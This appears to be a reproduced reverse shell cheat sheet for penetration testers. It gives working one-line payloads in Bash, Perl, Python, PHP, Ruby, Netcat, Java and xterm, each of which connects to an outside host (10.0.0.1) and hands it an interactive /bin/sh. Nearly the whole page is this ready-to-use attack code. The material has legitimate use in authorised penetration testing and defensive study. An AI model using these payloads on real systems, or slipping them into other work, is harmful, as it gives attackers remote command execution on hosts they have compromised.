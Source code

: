 
## Reverse shell cheat sheet

[[#Bash]]
-
[[#PERL]]
-
[[#Python]]
-
[[#PHP]]
-
[[#Ruby]]
-
[[#Netcat]]
-
[[#Java]]
-
- [[#xterm]]


### Bash

Some versions of [bash can send you a reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) (this was tested on Ubuntu 10.10):

``bash -i >& /dev/tcp/10.0.0.1/8080 0>&1``

### PERL

Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell):

``perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'``

There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell).

### Python

This was tested under Linux / Python 2.7:

``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

### PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…

``php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'``

If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell).

### Ruby

``ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'``

### Netcat

Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.

``nc -e /bin/sh 10.0.0.1 1234``

If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) that you might still be able to get your reverse shell back like this:

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

### Java

``r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()``

[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

xterm -display 10.0.0.1:1

To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1

You’ll need to authorise the target to connect to you (command also run on your host):

xhost +targetip